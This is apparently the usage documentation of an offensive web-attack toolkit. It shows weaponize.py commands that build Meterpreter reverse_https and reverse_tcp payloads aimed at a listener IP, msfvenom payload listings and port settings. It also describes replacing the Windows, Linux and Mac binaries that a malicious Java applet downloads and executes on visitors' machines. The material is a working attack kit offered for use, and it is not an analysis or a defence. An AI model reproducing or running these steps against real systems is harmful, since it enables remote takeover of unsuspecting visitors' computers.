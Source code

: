 The first is through command line arguments to the script itself. For instance, to customize the Windows and Linux payloads (but leave the OSX payload as default) run:

`/opt/java-web-attack#` **`./weaponize.py -w windows/x64/meterpreter/reverse_https -l linux/x64/meterpreter/reverse_tcp index.html 172.16.215.138`**

In this instance, we specified **windows/x64/meterpreter/reverse_https** in order to use the 64-bit Meterpreter communicating over HTTPS for the Windows payload and **linux/x64/meterpreter/reverse_tcp** to use the 64-bit variant of the default Linux payload.

For a full listing of available payloads you can run the following:

`/opt/java-web-attack#` **`msfvenom -l payloads`**

As there are many payloads available, you may wish to filter them using `grep` to only show one operating system at a time.

`/opt/java-web-attack#` **`msfvenom -l payloads | grep windows`**

---

By default, the ports used for the Windows, Linux, and OSX payloads are 3000, 3001, and 3002, respectively. To customize these ports you will need to edit the **weaponize.py** file. Near the top, you will find these lines where you can customize the ports used.

    WINDOWS_PORT = 3000
    LINUX_PORT = 3001
    OSX_PORT = 3002

Edit the file, save your changes, and rerun `weaponize.py` (follow Example 2) to regenerate your payloads.

---

The third way you can customize the payloads used is to use your own binary files entirely. To do this, simply follow the instructions in Example 2 so that you end up with the **output** directory containing the necessary files. Then replace one or more of the following with the custom executables of your choice.

* msf.exe - The Windows binary that the Java applet downloads and executes.
* nix.bin - The Linux binary that the Java applet downloads and executes.
* mac.bin - The Mac OS X binary that the Java applet downloads and executes.

Note: You will need to set up your own payload listeners if you replace the payload binaries.

